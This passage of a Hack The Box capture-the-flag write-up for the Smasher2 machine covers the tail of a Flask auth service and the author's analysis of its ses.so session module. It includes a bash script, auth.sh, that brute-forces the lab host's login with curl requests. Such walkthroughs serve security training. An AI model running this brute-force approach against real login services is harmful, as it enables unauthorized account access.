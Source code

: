 ~~~~python
        else:
            ret["success"] = False
            ret["result"] = "Invalid value provided."
    else:
        ret["success"] = False
        ret["result"] = "Invalid token."
    return jsonify(ret)


app.run(host='127.0.0.1', port=5000)
~~~~

It turns out that `ses.so` is a Python module. I'm pretty sure the credential is NOT `<REDACTED>:<REDACTED>`. :laughing:

### Cracking the `auth.py` and `ses.so` puzzle

Analysis of `ses.so` tells me that it doesn't matter what the password is for DSM, it's the same as the username. Every new connection creates a new thread and a new `SessionManager` object, added to the `Managers` dictionary, referenced by `get_secure_key()`. The login credential is stored in `user_login` while `craft_secure_token(login)` is stored in `secret_key`, which is also the API key.

Brute-force (after 976 attempts) triggers a segfault in one of the threads. I guess that's where the timeout occurs at `wonderfulsessionmanager.smasher2.htb` as well. This is also where the username is revealed in the `$rsi` register when I attached `gdb` to the process `python auth.py` running locally on my machine.


{% include image.html image_alt="1ae17c69.png" image_src="/5c05301f-9f98-407d-be22-6e29559ab628/1ae17c69.png" %}


Armed with this insight, I wrote another `bash` script to brute-force only the username.

<div class="filename"><span>auth.sh</span></div>

~~~~bash
#!/bin/bash

HOST=wonderfulsessionmanager.smasher2.htb
SESS=$(mktemp -u)
USER=$1
PASS=$USER
PROXY=http://127.0.0.1:8080

die() {
  killall perl 2>/dev/null
}

curl -s \
     -c $SESS \
     -o /dev/null \
     http://$HOST/

RESULT="$(curl -s \
               -b $SESS \
               -H "Content-Type: application/json" \
               -d "{\"action\":\"auth\",\"data\":{\"username\":\"$USER\",\"password\":\"$PASS\"}}" \
               -x $PROXY \
               http://$HOST/auth)"

if grep -E ':true' <<<"$RESULT" &>/dev/null; then
  echo "[+] Username: $USER, Password: $PASS"
  echo "$RESULT"
  die
fi
~~~~

[1]: https://www.hackthebox.eu/home/machines/profile/191
[2]: https://www.hackthebox.eu/home/users/profile/1963
[3]: https://www.hackthebox.eu/home/users/profile/11652
[4]: https://www.hackthebox.eu/